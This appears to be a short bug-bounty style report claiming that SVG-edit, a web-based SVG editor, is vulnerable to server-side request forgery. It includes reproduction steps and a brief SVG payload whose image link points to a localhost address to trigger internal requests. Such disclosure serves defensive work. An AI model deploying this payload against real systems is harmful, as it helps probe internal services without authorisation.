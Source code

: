 # :book: Description


 `SVG-edit` is a fast, web-based, JavaScript-driven SVG drawing editor that works in any modern browser. This package is vulnerable for `(SSRF)`.

https://github.com/SVG-Edit/svgedit
# :recycle:  Steps To Reproduce-:  
  0) download and run latest release from https://github.com/SVG-Edit/svgedit Or use demo https://svg-edit.github.io/svgedit/dist/editor/index.html
  1) open payload svg. Payload used : 
  `rc3.svg`
  ```
  <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="position:relative" width="300" height="200" overflow="hidden"><image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg"/><path d="M0 150h300v10H0z"/></svg>
  ```

# :telescope: POC
https://drive.google.com/file/d/15Z0KLaIkIMZSdyxFTikI4UzoVlExiO8R/view?usp=sharing
## 💥 Impact
SSRF
